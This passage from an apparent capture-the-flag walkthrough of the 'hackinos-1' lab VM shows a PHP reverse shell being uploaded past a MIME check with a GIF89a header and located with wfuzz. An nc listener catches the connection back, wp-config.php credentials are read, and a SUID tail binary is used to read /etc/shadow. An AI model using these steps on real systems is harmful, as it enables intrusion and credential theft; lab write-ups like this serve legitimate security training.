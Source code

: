 * Go to `/usr/share/webshells/php` and open `php-reverse-shell.php`. Change the values at lines 49 and 50, which is the IP address (`$ip`) and port number (`$port`) respectively of our Kali VM. I will be using port 3000 here.
* However, recall that our file type is restricted to only .png or .gif. One way that servers prevent shells from being uploaded is to restrict the file types of files that users can upload. Nonetheless, we can bypass this limitation by adding the text `GIF89a` or `GIF98` to the start of php-reverse-shell.php.
* Note: Adding the allowed file extensions to our malicious file, e.g. `malicious.php.png` or `malicious.php.gif` does not work because the file type check is done by examining the file MIME (way to identify files according to nature and format) type, and not by splicing the entire string to get the file type.
* After adding the text, upload `php-reverse-shell.php` (we have now bypassed the file extension filter) and then rinse and repeat using `wfuzz` as done previously to obtain the file name of our shell code: `wfuzz -w MD5HashesList.txt --sc 200 http://localhost:8000/uploads/FUZZ.php`. Mine is `6263d635867b1da16ef04b5d419a6fed`.
* Before we open the malicious file on the web server which will initiate the connection back to our Kali VM at port 3000 (or whichever other port you used), we have to `nc` listener on our Kali VM: `nc -l -p 3000`.
* `-l` is used to specify that nc listens to an incoming connection rather than initiating a connection to a remote host. `-p` is to specify the port number. `-v` can also be added if you would like a more verbose output, such as having the message that says that the listener is listening after running the command, versus no such message, i.e. nc is silently waiting.
* After running that command, we now have a reverse shell on the vulnerable web server, as user `www-data`:
![](/screenshots/hackinos-1/successfulReverseShell.jpg)
* Interestingly on some occasions, after we terminate the nc connection, the malicious file appears to no longer be on the web server anymore. We have to re-upload our malicious file to the web server.
* Heading to `/var/www/html`, open `wp-config.php` and we find that the MySQL login credentials are `wordpress:wordpress`. We are not exactly sure if we need this later, but this is one of the pieces of information that I take note once I get access, just in case we are stuck later on (and who knows when it might come in handy).
* Next, we will have to find a way for privilege escalation, using a binary with the setuid bit enabled. Run `find / -user root -perm -4000 -print 2>/dev/null`, just like in mr-robot-1:
![](/screenshots/hackinos-1/suidExecutables.jpg)
* Amongst these binaries, we will use `/usr/bin/tail` to escalate our privileges: `tail -c1G /etc/shadow`, where `tail` allows us to output the final parts of a file: